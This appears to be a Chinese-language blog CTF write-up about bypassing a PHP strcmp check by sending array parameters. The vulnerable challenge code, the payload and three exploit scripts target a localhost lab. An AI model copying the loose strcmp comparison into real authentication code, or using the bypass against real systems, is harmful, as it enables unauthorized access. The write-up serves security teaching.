 ```yaml
---
layout: post
title: "[PHP] Strcmp函數繞過"
date: 2016-11-21 22:18:02 +0800
categories: [security, php]
tags: [security, php]
---
```



```php
<?php
include('flag.php');

$username = isset($_GET['username']) ? $_GET['username'] : '';
$password = isset($_GET['password']) ? $_GET['password'] : '';

if( strcmp($username,$flag) == 0 && strcmp($password,$flag) == 0 )
{
	echo $flag;
}
else
{
	echo 'try again';
}

show_source(__FILE__);
?>
```

漏洞出現於

```php
if( strcmp($username, $flag) == 0 && strcmp($password, $flag) == 0 )
```


PHP Strcmp函數 可利用輸入陣列繞過檢查


附上 payload
<pre>payload  = username[]=aaa&amp;password[]=aaa</pre>

成功後頁面
![成功後頁面](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2016-11-21/1.png)


附上Exploit

#### python版本

```py
#coding=utf-8
import requests
import re
host = 'http://127.0.0.1/ctf/strcmp.php'
port = 80

payload = 'username[]=aaa&password[]=aaa'
req = requests.post(host,params=payload)
dump = req.text
pat = re.compile(r'c+.*}')  # + 代表開頭 *代表結尾
flag  = re.findall(pat, str(dump))
print (flag[0])
```
###### **※2019-08-09 Update**

#### PHP GET版本
```php
#!/usr/bin/php -q
<?php

$url = "http://localhost/CTF/strcmp.php";

$payload = '?username[]=aaa&password[]=aaa';

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url . $payload);
curl_setopt($ch, CURLOPT_RETURNTRANSFER,1);

$result = curl_exec($ch);

curl_close ($ch);

preg_match('/CTF{.*}/',$result,$matches) . PHP_EOL;
echo $matches[0] . PHP_EOL;  //echo flag

?>
```


#### PHP POST版本
```php
#!/usr/bin/php -q
<?php

$url = "http://localhost/CTF/strcmp.php";

$payload = array(
	'username[]' => 'aaa',
	'password[]' => 'aaa'
	);

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_POST,true);
curl_setopt($ch, CURLOPT_CUSTOMREQUEST,'POST');
curl_setopt($ch, CURLOPT_POSTFIELDS, http_build_query($payload) );
curl_setopt($ch, CURLOPT_RETURNTRANSFER,1);

$result = curl_exec($ch);

curl_close ($ch);

preg_match('/CTF{.*}/',$result,$matches) . PHP_EOL;
echo $matches[0] . PHP_EOL;
?>
```